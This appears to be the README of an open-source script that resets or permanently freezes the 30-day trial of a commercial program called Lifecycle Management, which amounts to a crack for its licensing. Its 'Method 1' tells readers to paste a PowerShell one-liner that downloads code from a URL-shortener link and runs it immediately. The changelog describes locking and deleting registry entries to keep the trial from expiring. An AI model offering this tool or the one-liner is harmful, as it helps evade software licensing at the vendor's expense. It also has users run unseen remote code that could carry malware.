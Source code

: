 # Lifecycle Management Scripts
An open-source tool to activate and reset the test of [Lifecycle Management](https://www.lifecyclemanagement.org/)

# Features
* LM freeze test and test with registry key lock method
* Activation and test persist even after installing LM updates
* LM test reset
* Fully open source
* Based on the transparent batch script

# LM Latest Release
Last Release - v1.3 (12-Jul-2025)
[GitHub](https://github.com/rcplus3/Lifecycle-Management-Scripts)

# Download / How to use it?
First fresh install [Lifecycle Management](https://www.lifecyclemanagement.org/). Make sure previous cracks/patches are removed/uninstalled if there are any.
After that follow the below steps to activate it.

# Method 1 - PowerShell
(Recommended)

* Right-click on the Windows start menu and select PowerShell or Terminal (Not CMD).
* Copy-paste the below code and press enter
*`iex(irm is.gd/LM_reset)`
* You will see the test options, follow the on-screen instructions.
* That’s all.

# Method 2 - Common

* Download the file from [GitHub](https://github.com/rcplus3/Lifecycle-Management-Scripts/archive/refs/heads/main.zip)
* Right-click on the downloaded zip file and extract
* In the extracted folder, run the file named `LM.cmd`
* You will see the test options, and follow onscreen instructions.
* That’s all.

# Info

## Reset Lifecycle Management / test
* Lifecycle Management provides a 30-day test period, you can use this script to reset this Activation / test period whenever you want.
* This option also can be used to restore status if in case LM reports a fake serial key and other similar errors.

## OS requirement
* The project is supported for Windows 7/8/8.1/10/11 and their Server equivalent.
* The PowerShell method to run LM is supported on Windows 8 and higher.

# Changelog
## v1.2
* Added back test option with a randomized name, email, and key in registration details along with a warning that it’s not working for some users, the recommended option is to use Freeze test.
## v1.1
* LM update 1.3 has started showing fake serial popups with LM test, due to this we have removed the test option and replaced it with the Freeze test option to lock the 30-day test period for the lifetime.

## v1.0
* Added the code to relaunch the script with conhost.exe if the script is running from the terminal app.
* Fixed an issue in getting the current user account SID.
## v0.9
* Fixed an issue where the script can not activate and reset LM in non-admin user accounts.
* Fixed an issue where the script incorrectly shows that LM is activated.
* Fixed an issue where a fake serial pop-up may appear. The script will also show the info to run the test option again without using the reset option.
* LM registry scanning and locking code is now written in Powershell.
* The script update checker code is added to the script.
* The script will now disable quick edit mode temporarily because users often click inside the script window and it pauses the script.
* The script will back up the CLSISD lifecycle policies before performing operations on them.
* Many error checks are added to better identify the issues.
## v0.8
* Move the project to [Github](https://github.com/rcplus3/Lifecycle-Management-Scripts)
* Minor bug fixes
* Add info to inform users that empty lifecycle policies are being deleted when the script deletes a lot of them
------------------------------------------------------------------------

